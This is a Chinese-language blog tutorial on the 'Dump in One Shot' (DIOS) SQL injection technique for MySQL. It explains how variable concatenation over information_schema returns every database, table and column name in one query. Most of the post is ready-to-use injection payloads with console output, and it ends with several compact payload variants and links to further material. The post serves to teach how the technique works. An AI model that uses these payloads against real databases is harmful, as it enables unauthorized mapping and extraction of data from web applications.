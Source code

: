 
+++
title = "Dump in One Shot"
summary = ''
description = ""
categories = []
tags = []
date = 2016-04-20T12:59:39+08:00
draft = false
+++

----

本文将来介绍Dump in One Shot(DIOS)这种SQL注入手法

## 例子
先来看一个例子

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where
    (@a) in (@a:=concat(@a,schema_name,'<br>'))))a)

上面的SQL语句会一次性返回所有数据库的名称

    +-------------------------------------------------------------------------------------+
    | (@a)                                                                                |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)

**请先仔细想想这条语句是如何执行的，再看下面的分析**

## 原理分析
先让我们从最内层开始，分析这条语句是如何执行的

     (@a:=concat(@a,schema_name,'<br>'))

首先你要知道@a是一个变量。`concat()`将`@a,schema_name,'</br>'`三者进行拼接，`:=`是赋值操作。但是有一点你需要注意，只要`concat()`中有NULL时，都会返回NULL

    mysql> select @a;
    +------+
    | @a   |
    +------+
    | NULL |
    +------+
    1 row in set (0.00 sec)
    mysql> select (@a:=concat(@a,schema_name,'<br>')) from information_schema.schemata;
    +-------------------------------------+
    | (@a:=concat(@a,schema_name,'<br>')) |
    +-------------------------------------+
    | NULL                                |
    | NULL                                |
    | NULL                                |
    | NULL                                |
    | NULL                                |
    | NULL                                |
    +-------------------------------------+
    6 rows in set (0.00 sec)


所以执行时先要对`@a`进行赋值。这也就是本文例子中为什么要`select(@a:=0x00)`的原因。

    mysql> set @a:=0x00;
    Query OK, 0 rows affected (0.00 sec)

    mysql> select (@a:=concat(@a,schema_name,'<br>')) from information_schema.schemata;
    +-------------------------------------------------------------------------------------+
    | (@a:=concat(@a,schema_name,'<br>'))                                                 |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>                                                             |
    |  information_schema<br>mysql<br>                                                    |
    |  information_schema<br>mysql<br>performance_schema<br>                              |
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>                      |
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>              |
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    6 rows in set (0.00 sec)

再看包含这条`concat()`从句的语句

    select (@a) from (information_schema.schemata) where (@a)in (@a:=concat(@a,schema_name,'<br>'))

这是一条SQL中的 where in 语句。但是请仔细想一想，这和通常的 where in 语句是不是有些区别？`@a`既不是一个字段的名称，`in` 后面也不是可能取到的值集合。
好吧，如果你纠结在这里，你就输了（´∀｀*) 。

    mysql> (select (@a) from (select(@a:=0x00),(select (‘hahaha’) from (information_schema.schemata) where ('biubiubiu') in (@a:=concat(@a,schema_name,'<br>'))))a);
    +-------------------------------------------------------------------------------------+
    | (@a)                                                                                |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)

同样返回了所有数据库名称。是不是觉得很神奇(￣▽￣)"。其实`(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))`这条语句的作用仅仅是不断的将schema_name字段中的值追加到`@a`变量中,而不是返回一个*有效的结果集*。最终我们是通过变量`@a`来得到所有的数据库名

    mysql> (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
    +------------+----------------------------------------------------------------------------------------------------+
    | (@a:=0x00) | (select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))) |
    +------------+----------------------------------------------------------------------------------------------------+
    |            | NULL                                                                                               |
    +------------+----------------------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)

    mysql> select @a;
    +-------------------------------------------------------------------------------------+
    | @a                                                                                  |
    +-------------------------------------------------------------------------------------+
    |  information_schema<br>mysql<br>performance_schema<br>t3st<br>test<br>yii2basic<br> |
    +-------------------------------------------------------------------------------------+
    1 row in set (0.00 sec)


#### 获取所有的表名

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables) where (@a)in (@a:=concat(@a,table_name,'<br>'))))a);

#### 获取非information_schema中的表

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables) where table_schema!='information_schema' and(@a)in (@a:=concat(@a,table_name,'<br>'))))a)

#### 获取数据库与表的关系

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.tables) where table_schema!='information_schema' and(@a)in (@a:=concat(@a,table_schema,0x3a,table_name,'<br>'))))a)

#### 一次性返回数据库的所有信息

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns) where table_schema!='information_schema' and(@a)in (@a:=concat(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)

#### 进行模糊匹配查询

    (select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.columns)where table_schema!='information_schema' and table_name like 'SHOP%' and(@a)in (@a:=concat(@a,table_schema,' > ',table_name,' > ',column_name,'<br>'))))a)

## 更多的DIOS姿势

    (select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a)

    (select(select concat(@:=0xa7,(select count(*)from(information_schema.columns)where(@:=concat(@,0x3c6c693e,table_name,0x3a,column_name))),@)))

    (Select export_set(5,@:=0,(select count(*)from(information_schema.columns)where@:=export_set(5,export_set(5,@,table_name,0x3c6c693e,2),column_name,0xa3a,2)),@,2))

    (select 1,make_set(6,@:=0x0a,(select(1)from(information_schema.columns)where@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@))

## Reference
- [DIOS (Dump in One Shot) Explained](http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)
- [DIOS (Dump in One Shot) Explained Part 2](http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-2.html)
- [DIOS the SQL Injectors Weapon (Upgraded)](http://securityidiots.com/Web-Pentest/SQL-Injection/DIOS-the-SQL-Injectors-Weapon-Upgraded.html)

